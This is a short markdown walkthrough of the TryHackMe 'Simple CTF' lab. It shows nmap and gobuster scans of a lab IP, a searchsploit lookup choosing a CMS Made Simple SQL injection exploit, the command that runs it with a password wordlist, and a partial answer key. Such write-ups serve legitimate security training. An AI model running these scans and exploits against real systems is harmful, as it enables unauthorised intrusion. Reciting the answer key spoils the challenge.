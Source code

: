 TryHackMe | SimpleCTF

https://tryhackme.com/r/room/easyctf

WriteUps:

https://medium.com/@akerkar34/simple-ctf-tryhackme-walkthrough-13fae8abe32d


---
#### nmap scan:
`nmap -sC -sV -A 10.10.90.196 -vv -oN nmap`

```
PORT     STATE SERVICE REASON  VERSION
21/tcp   open  ftp     syn-ack vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.6.16.52
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
80/tcp   open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 2 disallowed entries 
|_/ /openemr-5_0_1_3 
2222/tcp open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
```

#### gobuster hidden directory scan:
`gobuster dir -u http://10.10.90.196 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o dirb.txt`



#### search for exploits:

`searchsploit cms made simple`

```
CMS Made Simple < 1.12.1 / < 2.1.3 - Web Server Cache Poisoning                                                                                                                                                      | php/webapps/39760.txt
CMS Made Simple < 2.2.10 - SQL Injection <------- Using this one                                                                                                                                                     | php/webapps/46635.py
CMS Made Simple Module Antz Toolkit 1.02 - Arbitrary File Upload
# search google for php/webapps/46635.py and copy script locally
```


#### run script on target:
`/usr/bin/python2 exploit.py -u http://10.10.90.196 --crack -w /usr/share/wordlists/rockyou.txt`


---
#### Key:


Q: How many services are running under port 1000?

2

Q: What is running on the higher port?

SSH


Q: What's the CVE you're using against the application?

Q: To what kind of vulnerability is the application vulnerable?

Q: What's the password?

Q: Where can you login with the details obtained?

Q: What's the user flag?

Q: Is there any other user in the home directory? 

Q: What's its name?

Q: What can you leverage to spawn a privileged shell?